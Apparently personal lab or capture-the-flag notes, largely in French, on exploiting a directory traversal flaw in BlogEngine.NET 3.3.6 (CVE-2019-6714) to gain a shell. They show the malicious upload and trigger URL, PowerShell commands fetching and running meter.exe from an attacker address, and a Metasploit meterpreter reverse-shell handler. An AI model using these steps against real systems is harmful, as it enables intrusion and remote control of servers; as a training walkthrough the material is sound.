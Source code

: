 BlogEngine.NET v3.3.6.0

https://www.exploit-db.com/exploits/46353

# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
# Date: 02-11-2019
# Exploit Author: Dustin Cobb
# Vendor Homepage: https://github.com/rxtur/BlogEngine.NET/
# Software Link: https://github.com/rxtur/BlogEngine.NET/releases/download/v3.3.6.0/3360.zip
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714


/admin/app/editor/editpost.cshtml

Création du fichier PostView.ascx avec l'IP/PORT

Upload du fichier PostView.ascx : OK

Execution de l'exploit via l'appel à l'url `/?theme=../../App_Data/files` : OK, Got shell

c:\windows\system32\inetsrv>whoami
iis apppool\blog

Tentative d'envoi du shell + exec via powershell : FAIL

```
powershell -c Invoke-WebRequest -Uri http://10.9.28.128/meter.exe -OutFile meter.exe
powershell -c Start-Process "meter.exe"
```

Upload de l'exe via l'interface web : OK

../../App_Data/files => c:\inetpub\wwwroot

Préparation du reverse shell dans metasploit : OK

```msf5
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.28.128
set LPORT 9002
run
```
